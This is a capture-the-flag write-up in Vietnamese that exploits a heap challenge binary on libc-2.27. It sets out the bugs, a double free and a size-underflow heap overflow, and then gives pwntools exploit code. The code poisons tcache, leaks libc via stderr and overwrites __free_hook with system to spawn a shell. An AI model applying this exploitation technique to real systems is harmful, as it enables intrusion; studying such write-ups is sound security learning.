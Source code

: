 **1.Find bug**
  - ![image](https://user-images.githubusercontent.com/113702087/220030510-859dae24-8668-41e8-9bde-a9f9eaab5c06.png)
  - PIE và Fortify tắt.
  - ![image](https://user-images.githubusercontent.com/113702087/220022145-4c49d73e-b46c-4791-91fe-aef24fdd12c1.png)
  - chương trình thực hiện nhập name tại 0x602060 và thực thi read data trên heap được cấp phát tại 0x602088, tuy nhiên giới hạn của việc free là 8 lần.
  - Tại hàm info ta có thể in ra name.
  - do libc-2.27 nên ta có thể double free đê gây lỗi uaf.
  - ![image](https://user-images.githubusercontent.com/113702087/220031133-961eedfe-ec72-4ba1-bf49-77ac6223b435.png)
  - ta có thể thấy rằng khi tại hàm Malloc() nó thực hiện read_input(ptr, uint(size - 16)) nếu size < 16 thì có thể read với size lớn gây lỗi heap overflow.
  - Dựa vào các lỗi trên ta có thể leak libc = cách đưa addr libc vào tcache và giải phóng name lúc đó name -> libc, lúc này ta dùng info để leak libc ra. Khi có libc thì có thể overwrite free_hook thành system
  - ta sẽ chọn địa chỉ name+16 là fake chunk và libc là stderr

**2. Exploit**
 ### Leak libc
  - Để đưa libc và fakechunk về cùng 1 chunk thì ta cần control size = 0x90 của chunk, với fakechunk thì khá dễ vì ta có thể control nó bằng cách nhập từ name
  - `r.sendafter(b'Name', b'\x41'*8 + p64(0x91))` tạo size cho fakechunk
  - Tạo 4 chunk và giải phóng nó.
  ```
  malloc(size_, b'a')
  freeandinfo(b'2')
  freeandinfo(b'2')
  malloc(size_ + 24, b'aaaa')
  freeandinfo(b'2')
  malloc(size_ + 40, b'aaaa')
  freeandinfo(b'2')
  malloc(size_ + 56, b'aaaa')
  freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220078906-f8d92564-7224-4794-896f-5c5904c9fdc3.png)
  - chunk đầu ta sẽ dùng double free, overflow nó để control các chunk dưới, và chứa lbic_stderr+30 để control size libc_stderr
  - chunk 2 ta đưa stderr, cấp phát vào stderr và thay đổi nó thành libc_stderr-0x30 thay đổi stderr ở chunk 1
  - chunk 3 đưa fakechunk vào để có thể free vào chunk mong muốn ( ở đây là chunk chứa libc)
  - chunk 4 cũng là fakechunk để ta có thể control được ptr vì chương trình đã giới hạn việc free.
  - setup các chunk
  ```
  payload = p64(stderr) + b'\x00'*16 + p64(0x31) + p64(stderr) + b'\x00'*32 + p64(0x41) + p64(name_addr + 16) + b'\x00'*48 + p64(0x51) + p64(name_addr + 16)

  malloc(size_, payload)
  malloc(size_ + 24, b'a')
  malloc(size_ + 24, b'\x50')
  malloc(size_, b'a')
  malloc(size_, b'a')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220079920-00e4a33c-1fc8-4b36-a435-32a44e3e3f61.png)
  - ![image](https://user-images.githubusercontent.com/113702087/220081175-9c7c37e6-f9d1-4c71-999e-2e3d788289c4.png)
  - thay đổi size libc_stderr và đưa vào tcache_c
  ```
  payload = b'\x00'*40 + p64(0x91)
  malloc(size_, payload)
  malloc(size_ + 24, b'\x87')
  freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220081883-10198633-7bb4-4635-b8cb-092b55a79ee3.png)
  - Sau khi đưa libc_stderr vào tcache ta free(fakechunk) tcache 0x90: `fakechunk->libc_stderr`
  ```
  malloc(size_ + 40, b'a')
malloc(size_ + 40, b'a')
freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220082718-35ee95cc-6b5b-40b2-8d54-055eb2a4ebec.png)
  ```
  freeandinfo(b'3')
r.recvuntil(b'Name :')
r.recv(16)
out = r.recv(8)
libc.address = u64(out) - 0x3ec680
print(hex(libc.address))
  ```
 ### Overwrite free_hook và lấy shell
  ```
  malloc(size_ + 56, b'a')
malloc(size_ + 56, p64(libc.sym['__free_hook']))
malloc(size_ + 120, b'a')
malloc(size_ + 120, p64(libc.sym['system']))

malloc(size_ + 112, b'/bin/sh')
freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220083309-d75596e1-2280-48f3-9445-32870d89c9f7.png)
  - ![image](https://user-images.githubusercontent.com/113702087/220083419-b37a7326-e416-4023-aaca-f1cbb5b3303e.png)

